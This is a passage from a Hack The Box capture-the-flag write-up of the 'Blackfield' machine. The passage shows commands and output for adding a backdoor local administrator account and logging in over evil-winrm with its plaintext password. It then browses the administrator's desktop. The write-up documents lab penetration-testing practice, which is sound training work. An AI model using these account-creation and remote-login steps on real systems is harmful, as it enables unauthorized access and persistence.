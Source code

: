 
We can see new user `coldfusion` has been created with local administrator privileges:

```shell
*Evil-WinRM* PS C:\temp> net users coldfusion
User name                    coldfusion
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/5/2020 5:38:18 PM
Password expires             11/16/2020 5:38:18 PM
Password changeable          10/6/2020 5:38:18 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *Domain Users
The command completed successfully.
```
Logging in with new local admin creds:

```shell
cfx:  ~/Documents/htb/blackfield/Hijack
→ evil-winrm -i 10.10.10.192 -u coldfusion -p 'c0!dfusion'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\coldfusion\Documents> whoami
blackfield\coldfusion

*Evil-WinRM* PS C:\users\administrator\desktop> ls


    Directory: C:\users\administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/28/2020   4:36 PM            447 notes.txt
-ar---        10/3/2020   3:31 PM             34 root.txt


*Evil-WinRM* PS C:\users\administrator\desktop> get-content root.txt
Access to the path 'C:\users\administrator\desktop\root.txt' is denied.

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type notes.txt
Mates,

After the domain compromise and computer forensic last week, auditors advised us to:
- change every passwords -- Done.
- change krbtgt password twice -- Done.
```